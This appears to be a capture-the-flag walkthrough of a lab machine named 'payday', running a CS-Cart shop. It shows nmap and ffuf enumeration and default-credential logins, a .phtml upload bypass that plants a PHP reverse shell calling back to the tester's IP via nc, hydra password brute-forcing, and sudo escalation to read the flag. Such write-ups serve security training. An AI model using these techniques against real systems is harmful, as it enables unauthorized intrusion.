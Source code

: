 > Noamro08 - 1 Feb 2024

### Enumeration

nmap scan (scripts and services):
```bash
nmap -Pn -n -sVC 192.168.170.39 -oN scan.inital 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-01 12:24 IST
Nmap scan report for 192.168.170.39
Host is up (0.077s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 f3:6e:87:04:ea:2d:b3:60:ff:42:ad:26:67:17:94:d5 (DSA)
|_  2048 bb:03:ce:ed:13:f1:9a:9e:36:03:e2:af:ca:b2:35:04 (RSA)
80/tcp  open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
|_http-title: CS-Cart. Powerful PHP shopping cart software
110/tcp open  pop3        Dovecot pop3d
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_ssl-date: 2024-02-01T10:25:15+00:00; -5s from scanner time.
|_pop3-capabilities: TOP UIDL CAPA PIPELINING RESP-CODES SASL STLS
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
143/tcp open  imap        Dovecot imapd
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_ssl-date: 2024-02-01T10:25:15+00:00; -5s from scanner time.
|_imap-capabilities: LOGINDISABLEDA0001 STARTTLS LITERAL+ IDLE Capability OK CHILDREN completed LOGIN-REFERRALS MULTIAPPEND IMAP4rev1 THREAD=REFERENCES UNSELECT NAMESPACE SASL-IR SORT
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
445/tcp open  @           Samba smbd 3.0.26a (workgroup: MSHOME)
993/tcp open  ssl/imap    Dovecot imapd
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_imap-capabilities: LOGIN-REFERRALS LITERAL+ IDLE Capability OK CHILDREN completed AUTH=PLAINA0001 MULTIAPPEND IMAP4rev1 THREAD=REFERENCES UNSELECT NAMESPACE SASL-IR SORT
|_ssl-date: 2024-02-01T10:25:15+00:00; -5s from scanner time.
995/tcp open  ssl/pop3    Dovecot pop3d
|_ssl-date: 2024-02-01T10:25:15+00:00; -5s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_pop3-capabilities: TOP UIDL CAPA PIPELINING RESP-CODES SASL(PLAIN) USER
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: payday
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: payday
|_  System time: 2024-02-01T05:25:07-05:00
|_clock-skew: mean: 49m55s, deviation: 2h02m28s, median: -5s
|_smb2-time: Protocol negotiation failed (SMB2)
```

browsing to the site we can see a "CS-CART" site for users to buy things, navigating the UI there is a login and **admin:admin** works but this login is not helping because it is for regular users that come to buy and there is nothing we can do with the admin user.

so we try to fuzz directories woith ffuf:
```bash
(kali㉿kali)-[~]
└─$ ffuf -u http://192.168.170.39/FUZZ -w /usr/share/dirb/wordlists/common.txt      

 :: Method           : GET
 :: URL              : http://192.168.170.39/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 304, Words: 22, Lines: 11, Duration: 90ms]
.htaccess               [Status: 403, Size: 309, Words: 22, Lines: 11, Duration: 87ms]
.htpasswd               [Status: 403, Size: 309, Words: 22, Lines: 11, Duration: 88ms]
                        [Status: 200, Size: 28074, Words: 1558, Lines: 676, Duration: 115ms]
addons                  [Status: 301, Size: 335, Words: 21, Lines: 10, Duration: 76ms]
admin                   [Status: 200, Size: 9483, Words: 393, Lines: 263, Duration: 136ms]
admin.php               [Status: 200, Size: 9483, Words: 393, Lines: 263, Duration: 129ms]
```

and there is admin.php:
and here we can log in and do some stuff, searching a little bit in google for exploits to authenticated RCE we get this github that explains hoe to upload a php file that will bypass the ".php" extension filtered.
"https://gist.github.com/momenbasel/ccb91523f86714edb96c871d4cf1d05c"
![[Pasted image 20240201131318.png]]

so we follow the stages and it is working:

so lets upload a rev.php file:
```bash
cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/oscp/PG/practice/payday
# changing the ip and port and the .php to .phtml for this file upload to bypass the security filter only html...

(kali㉿kali)-[~/…/oscp/PG/practice/payday]
└─$ head rev.phtml                         
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.182';  // CHANGE THIS
$port = 80;       // CHANGE THIS
....
```

uploading the file:
![[Pasted image 20240201131431.png]]
<center>navigating to the rev shell file we uploaded "http://$IP/skins/rev.phtml"</center>

we open `nc -nvlp 80` and wait for the rev shell to pop:
![[Pasted image 20240201131915.png]]
worked!

now we upgrade the shell:
```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@payday:/$ export TERM=xterm
export TERM=xterm
www-data@payday:/$ ^Z
zsh: suspended  nc -nvlp 80
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/…/oscp/PG/practice/payday]
└─$ stty raw -echo; fg
```

searching for ways to get root user or patrick trhat we can see is part of adm goup which is sudoers and nothing was found with linpeas and manually, at the end by brutforcing the user patrick we found that his password is patrick:
```bash
hydra -l patrick -P /usr/share/wordlist/rockyou.txt 192.168.170.39 ssh

patrick:patrick
```

so now we switch to patrick:
```bash
www-data@payday:/root$ su patrick
patrick@payday:/root$ id
uid=1000(patrick) gid=1000(patrick) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),104(scanner),115(lpadmin),1000(patrick)

patrick@payday:/root$ sudo -l

[sudo] password for patrick:
User patrick may run the following commands on this host:
    (ALL) ALL
patrick@payday:/root$ sudo cat /root/proof.txt 
bb73b4a4a5dad21b6e50c24292acbafe
```